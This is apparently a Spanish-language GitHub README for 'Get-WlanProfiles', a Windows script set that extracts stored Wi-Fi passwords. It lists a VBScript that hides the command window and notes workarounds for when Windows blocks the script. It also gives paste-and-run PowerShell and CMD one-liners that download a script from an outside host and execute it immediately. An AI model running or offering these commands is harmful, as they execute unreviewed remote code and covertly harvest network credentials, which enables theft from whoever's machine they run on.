 # Get-WlanProfiles

### Extraer/Obtener contraseñas de WIFI almacenadas en Windows.
Archivos:
<br>Get-WlanProfiles.bat
<br>Get-WlanProfiles.psm1
<br>On-Get-WlanProfiles.ps1
<br>config.vbs - oculta ventana CMD

# Como Ejecutarlo
## Local
-Descague los archivos
<br>-Ejecute el archivo Get-WlanProfiles.bat o en su defecto confi.vbs

## Sin descargar - WEB
### PowerShell
-Abra Powershell<br>
-Pegue y ejecute este comando:
```
iwr -useb on-get-wlanprofiles.migzam.com | iex
```
### CMD
-Abra CMD<br>
-Pegue y ejecute este comando:
```
powershell iex ((New-Object System.Net.WebClient).DownloadString('http://on-get-wlanprofiles.migzam.com'))
```
# Extras
En la carpeta Extras se encuentras alternativas al codigo principal ya que windows en ocaciones bloquea el script.
